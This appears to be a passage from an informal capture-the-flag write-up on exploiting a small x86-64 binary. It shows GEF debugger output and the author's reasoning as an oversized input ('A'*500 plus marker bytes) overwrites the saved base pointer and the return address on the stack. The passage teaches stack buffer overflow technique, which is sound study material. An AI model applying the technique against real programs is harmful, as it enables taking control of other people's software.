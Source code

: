 ```  
       0x401056                  call   0x401011  
       0x40105b                  leave    
       0x40105c                  ret      
       0x40105d                  call   0x401022  
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
threads ────  
[#0] Id 1, Name: "some", stopped 0x401010 in ?? (), reason: BREAKPOINT  
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
trace ────  
[#0] 0x401010 → ret  
[#1] 0x40104f → lea rdi, [rsp]  
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────  
```  
as we can see it sets rax=0x11 which es basicaly len(input) and now our input
is on top of the stack in the rsp since the ret; poped of the
0x000000000040104f into rip.  
`0x40104f lea    rdi, [rsp]` will load the addr `0x00007fffffffdf3c` into rdi
which than holds our 'AAAABBBBCCCCDDDD\n'  
`0x401053 mov    rsi, rax  ` will load rax=0x11 into rsi.  
`0x401056 call   0x401011  ` calls the write function that sets rax=0x1 and
prints our output to rax=1 so stdout  
`0x40105b leave` will exit the main() back to entry0 that will run main() so
we are in a loop.

ok we understand whats going on and we basically have controll over the rax
from 1-800 so from 0x1 to 0x320

time to throw a lot more b'A' maybe we can overwrite the rsp lets throw
`b'A'*500 + b'BBBBBBBB' + b'CCCCDDDD'`

so we can see that after the program run at `0x40105b leave;` followed by a
`0x40105c ret;` it will load 'CCCCDDDD\n' into the rsp  
and than ret; (what basically does pop rip;) what will load rsp into rip.

```  
[ Legend: Modified register | Code | Heap | Stack | String ]  
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
registers ────  
$rax   : 0x205  
$rbx   : 0x0  
$rcx   : 0x0000000000401021  →   ret  
$rdx   : 0x205  
$rsp   : 0x00007fffffffe138  →  "CCCCDDDD\n"  
$rbp   : 0x4242424242424242 ("BBBBBBBB"?)  
$rsi   : 0x00007fffffffdf3c  →
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"  
$rdi   : 0x1  
$rip   : 0x000000000040105c  →   ret  
$r8    : 0x0  
$r9    : 0x0  
$r10   : 0x0  
$r11   : 0x216  
$r12   : 0x0  
$r13   : 0x0  
$r14   : 0x0  
$r15   : 0x0  
$eflags: [zero carry PARITY ADJUST sign trap INTERRUPT direction overflow
RESUME virtualx86 identification]  
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000  
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```